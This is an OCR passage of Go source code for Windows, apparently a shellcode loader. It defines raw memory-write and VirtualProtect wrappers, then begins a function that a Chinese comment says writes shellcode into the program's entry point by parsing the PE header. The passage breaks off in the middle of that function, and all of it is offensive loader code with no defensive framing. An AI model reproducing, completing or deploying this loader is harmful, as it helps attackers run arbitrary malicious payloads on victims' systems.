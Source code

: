       28. func WriteMemory(inbuf []byte, destination uintptr) {
    
      29.     for index := uint32(0); index < uint32(len(inbuf)); index++ {
    
      30.         writePtr := unsafe.Pointer(destination + uintptr(index))
    
      31.         v := (*byte)(writePtr)
    
      32.         *v = inbuf[index]
    
      33.     }
    
      34. }
    
      35. func GetModuleHandle() (handle uintptr) {
    
      36.     ret, _, _ := getModuleHandle.Call(0)
    
      37.     handle = ret
    
      38.     return
    
      39. }
    
      40. func VirtualProtect(lpAddress unsafe.Pointer, dwSize uintptr, flNewProtect uint32, lpflOldProtect unsafe.Pointer) bool {
    
      41.     ret, _, _ := procVirtualProtect.Call(
    
      42.         uintptr(lpAddress),
    
      43.         uintptr(dwSize),
    
      44.         uintptr(flNewProtect),
    
      45.         uintptr(lpflOldProtect))
    
      46.     return ret > 0
    
      47. }
    
      48.   
    
    
      49. // 将shellcode写入程序ep
    
      50. func loader_from_ep(shellcode []byte) {
    
      51.     baseAddress := GetModuleHandle()
    
      52.     ptr := unsafe.Pointer(baseAddress + uintptr(0x3c))
    
      53.     v := (*uint32)(ptr)
    
      54.     ntHeaderOffset := *v
    
      55.     ptr = unsafe.Pointer(baseAddress + uintptr(ntHeaderOffset) + uintptr(40))
    
      56.     ep := (*uint32)(ptr)
    
      57.   
    
    
      58.     var entryPoint uintptr
    
      59.     entryPoint = baseAddress + uintptr(*ep)
    